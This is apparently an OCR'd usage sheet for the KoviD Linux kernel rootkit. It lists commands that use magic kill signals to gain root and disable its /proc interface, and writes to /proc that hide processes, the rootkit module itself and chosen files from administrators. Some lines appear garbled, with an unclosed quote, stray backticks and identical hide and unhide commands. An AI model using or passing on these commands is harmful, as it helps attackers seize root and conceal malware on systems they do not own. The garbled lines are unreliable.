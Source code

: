 ## 2 /proc interface turn off

kill -SIGCONT 31337

## 3 Get ROOT

kill -SIGCONT 666
su

## 4 Hide a PID

echo `PID` >/proc/867530

## 5 Unhide a PID

echo `PID` >/proc/867530

## 6 Hide a PID in backdoor-style, hide children

echo "-bd `pid` >/proc/867530

## 7 Undo #6

echo `pid` >/proc/867530

## 8 Hide KoviD module from lsmod/sysfs  if not built with DEPLOY=1

echo "-h" >/proc/867530

## 9 Undo #8 - can rmmod after

cat ```/proc/867530``` >/proc/867530

## 10 List hidden taks - debug mode only

echo "-s" >/proc/867530
dmesg

## 11 Hide README.txt

### At current directory only

echo "-a README.txt" >/proc/867530

### At full-path

echo "-a /home/files/README.txt" >/proc/867530
